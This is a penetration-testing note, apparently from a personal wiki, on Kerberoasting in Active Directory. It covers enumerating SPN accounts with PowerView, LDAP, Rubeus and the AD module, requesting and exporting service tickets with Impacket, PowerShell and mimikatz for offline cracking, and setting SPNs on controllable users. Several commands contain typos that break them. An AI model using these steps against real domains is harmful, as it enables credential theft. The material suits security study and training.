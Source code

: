 ```yaml
---
category: Uncategorized
tags: []
---
```

#powerview #powershell #ldap #rubeus #mimikatz #impacket 
- ST can be requested by any user for any service if it's [SPN](TechLexicon/Penetration%20Testing/Exploitation/Active%20Directory/AD%20Concepts/Services.md#SPN) is registered in the domain.
- STs are encrypted with the service account which runs the service.
- Hence, we can try to crack the password of the service user account.
- In case of managed service accounts, the password is of 120 characters and changes every month, hence it is not possible to crack their password.
- However, some services are run with normal user accounts, managed by people, that can have weak password.
- Kerberoast involves service running under regular user accounts. We can request STs for the services and crack password locally.
We can query for users with SPNs using
- Powerview
```powershell
Get-NetUser -SPN
```
- LDAP
```ladp
(&(samAccountType=805306368)(servicePrincipalName=*))
```
- AD-RSAT (Active Directory module)
```powershell
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrinicipalName
```
- Rubeus
```powershell
# list kerberos stats
.\Rubeus.exe kerberoast /stats

# Look of kerberoastable account that only supports RC4_HMAC
.\Rubues.exe kerberoast /stat /rc4opsec
```
### Requesting STs
- Impacket's `GetUserSPNs.py` script can be used to query users with SPN and request STs for the service.
```bash
# This will search for SPNs, request STs for the same using supplied credentials and same the STs in "kerberoast.hash"
python GetUserSPNs.py mydomain.local/a.drdragon:Password!! -dc-ip <ip> -outputfile kerberoast.hash
```
- Requesting a TGS using powrshell
```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQL/mssqldomain.mydomain.local"
# This will add the kerberos key in memeory, and can be verified with klist
klist
# The key can be extracted with mimikatz
kerberos::list /export
```
- Powerview
```powershell
Request-SPNTicket
```
- Rubeus
```powershell
.\Rubeus kerberoast /nowrap [/user:<username>] /simple

# for rc4_hmac account
.\Rubeus kerberoast /nowrap [/user:<username>] /simple /rc4opsec
```
---
If we have `GenericAll` or `GenericWrite` over a user, we can set a random SPN for that user, and request ST for it. This is opsec friendly as resetting a user password is noisy. SPN for a user can be set using (SPN should be unique for the forest): 
```powershell
# Powerview
Set-DomainOjbect -Identity support30user -Set @{serviceprincipalname = 'dcorp/whatever'}

# Ad module
Set-ADUser -Identity support30user -ServicePrincipalNames @{Add='dcorp/whatever'}
```